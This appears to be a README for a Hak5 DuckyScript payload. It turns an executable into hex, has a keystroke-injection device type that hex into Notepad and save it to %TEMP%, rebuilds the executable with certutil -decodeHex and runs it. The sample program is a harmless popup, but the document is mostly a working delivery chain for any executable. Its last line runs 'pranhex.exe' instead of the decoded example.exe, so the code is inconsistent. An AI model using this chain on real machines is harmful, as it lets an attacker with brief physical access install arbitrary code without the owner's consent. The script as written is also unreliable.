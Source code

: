 # Example

Executables have been removed for security reasons.

## File list

- Python code: `example.py`
- Convert to hex script: `convert_to_hex.py`
- Executable file compiled using pyinstaller: `dist/example.exe`
- Hexadecimal code output: `example.hex`
- File compiled from hex code using certutil: `example.exe`

## Procedure

- This Python code create a Windows popup.

```python
import ctypes

ctypes.windll.user32.MessageBoxW(None, "Hello Hak5!", 'Info', 0x10 | 0x1)
```

- Create the executable

```powershell
pyinstaller --onefile C:/Users/Aleff/Documents/Install_And_Run_Any_Arbitrary_Executable-No_Internet_Needed/assets/example.py
```

- Create the hex code

```python
import binascii

def convert_to_hex(filename, output_file):
    with open(filename, 'rb') as file:
        binary_data = file.read()

    hex_code = binascii.hexlify(binary_data).decode()

    with open(output_file, 'w') as output:
        output.write(hex_code)

# Esempio di utilizzo
exe_filename = 'C:/Users/Aleff/Documents/Install_And_Run_Any_Arbitrary_Executable-No_Internet_Needed/assets/dist/example.exe'
output_filename = 'C:/Users/Aleff/Documents/Install_And_Run_Any_Arbitrary_Executable-No_Internet_Needed/assets/example.hex'
convert_to_hex(exe_filename, output_filename)
```

- Create the DuckyScript payload

```duckyscript
GUI r
DELAY 1000
STRINGLN notepad.exe
DELAY 2000
STRING #HEX_CODE
DELAY 2000
ALT F
DELAY 1000
STRING S
DELAY 1000
STRINGLN "%TEMP%\example.hex"
DELAY 1000
ENTER
DELAY 1000
ALT F4
DELAY 2000
GUI r
DELAY 500
STRINGLN certutil -f -decodeHex "%TEMP%\example.hex" "%TEMP%\example.exe"
DELAY 1000
ENTER
DELAY 1000
GUI r
DELAY 250
STRINGLN "%TEMP%\pranhex.exe"
```